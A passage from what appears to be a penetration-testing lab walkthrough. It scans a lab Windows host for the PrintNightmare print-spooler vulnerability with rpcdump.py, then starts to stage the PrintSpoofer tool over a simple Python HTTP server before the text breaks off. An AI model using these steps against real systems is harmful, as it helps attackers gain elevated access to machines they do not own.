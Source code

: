 **Discover PrintNightmare vulnerability**

![](../imgs/Lab/Lab28/18.png)

Machine IP address: 172.16.7.60

```zsh
rpcdump.py @172.16.7.60 | egrep 'MS-RPRN|MS-PAR'
```

![](../imgs/Lab/Lab28/20.png)

**Exploit PrintNightmare vulnerability**

Send [PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer) to the attack machine. Host a simple HTTP server on the attack machine

```zsh
python -m http.server 8000
```
